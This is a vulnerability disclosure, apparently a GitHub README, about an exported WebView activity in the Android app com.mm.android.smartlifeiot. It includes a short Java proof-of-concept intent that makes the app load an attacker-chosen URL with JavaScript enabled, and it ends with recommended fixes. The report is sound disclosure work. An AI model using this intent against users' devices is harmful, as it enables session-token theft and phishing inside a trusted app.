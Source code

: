 ## Vulnerability Report 

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary web content in the WebView of the vulnerable application.



### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The `com.mm.android.easy4ip.MainActivity` activity in the `com.mm.android.smartlifeiot` app allows for the loading of URLs directly from intent data. This can be exploited by a malicious third-party app to force this activity to load malicious web content from a URL specified by the attacker.

### Proof of Concept:

 ![image](https://github.com/actuator/imou/blob/main/pocGIF.gif)
 
A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:


Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);


Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
**this.url = getIntent().getExtras().getString("url");**


2. JavaScript execution is enabled in the WebView:

**this.webView.getSettings().setJavaScriptEnabled(true);**

3. Direct web content loading with the fetched URL:

**progressWebView.loadUrl(str);**


### Impact:

A malicious actor can exploit this vulnerability to execute arbitrary JavaScript within the context of the vulnerable application. This could potentially lead to various attacks, including stealing session cookies or tokens, executing actions on behalf of the user within the app context, or displaying phishing content to the user.

### MITRE CWE References:

- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)



 
